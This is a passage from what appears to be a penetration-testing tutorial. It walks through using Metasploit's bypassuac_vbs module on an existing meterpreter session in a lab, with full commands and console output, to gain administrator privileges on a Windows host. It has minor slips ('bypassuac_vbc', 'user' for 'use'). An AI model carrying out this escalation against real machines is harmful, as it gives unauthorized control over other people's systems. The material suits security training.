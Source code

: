             Windows Privileges
            ==================

            Name
            ----
            SeChangeNotifyPrivilege
            SeShutdownPrivilege
            SeUndockPrivilege
            ```
          What we can do then is use some of the modules offered by Metasploit to bypass the UAC protection mechanism. We can list them by simply searching the string `bypassuac`:
            ```
            msf exploit(handler) > search bypassuac

            Matching Modules
            ================

              Name                                      Disclosure Date   Rank  Description
              ----                                      ---------------   ----  -----------
              exploit/windows/local/bypassuac           2010-12-31        excellent  Windows Escalate UAC Protection
              exploit/windows/local/bypassuac_injection 2010-12-31        excellent  Windows Escalate UAC Protection
              exploit/windows/local/bypassuac_vbs       2015-08-22        excellent  Windows Escalate UAC Protection
            ```

          The steps we will have to do are very easy:
            1. Select the `bypassuac_vbc` module, since it is the newest module
            2. Set the session ID on which the module will be executed
            3. Run the module

          If the module completes, we will get a new meterpreter session with highest privileges. Remember that this is a bypass, so UAC will still be enabled on  the target.

          The following summarized the step:
            ```
            msf exploit(handler) > user exploit/windows/local/bypassuac_vbs
            msf exploit(bypassuac_vbs) > sessions

            Active sessions
            ===============

              Id  Type                    Information     Connection
              --  ----                    -----------     ----------
              6   meterpreter x86/win32   elsels @ELS     192.168.102.147:4455 -> 192.168.102.157:1039 (192.168.102.157)

            msf exploit(bypassuac_vbs) > set SESSION 6
            SESSION => 6
            msf exploit(bypassuac_vbs) > exploit
            ```

          If the exploit succeed, we will obtain a new meterpreter session that has higher privileges on the machine. As we can see, running `win_priv` prints out we are Admin on it.
            ```
            meterpreter > run post/windows/gather/win_privs
